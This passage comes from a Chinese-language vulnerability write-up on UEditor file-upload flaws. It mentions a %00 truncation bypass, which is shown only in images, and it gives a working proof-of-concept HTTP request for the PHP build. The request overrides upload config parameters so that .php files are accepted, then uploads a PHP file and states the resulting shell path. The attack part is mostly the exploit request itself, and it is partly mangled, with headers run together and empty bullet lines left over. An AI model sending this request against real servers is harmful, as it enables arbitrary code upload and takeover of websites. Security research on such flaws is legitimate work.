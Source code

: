 使用%00截断的方式上传绕过

![图片](https://shs3.b.qianxin.com/butian_public/f959742dfd0a820ef22d9a4e7c3733066.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f56185fd98154ccad0c1751e7dcc9640a.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f941209dd4d89049d09c16dd9db323c88.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f169e66ff7626a819e6a166a70bdebdf3.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/fd5eb864270c20be82ef82664c9e5c5ba.jpg)

**0x04 PHP版本的文件上传**

**利用poc：**

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1Host: localhostConnection: keep-aliveContent-Length: 222Cache-Control: max-age=0Origin: nullUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxAAccept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4———WebKitFormBoundaryDMmqvK6b3ncX4xxAContent-Disposition: form-data; name="fuck"; filename="fuck.php"Content-Type: application/octet-stream<?php phpinfo();?>———WebKitFormBoundaryDMmqvK6b3ncX4xxA—
shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定http://localhost/ueditor/php/upload/fuck.php
```
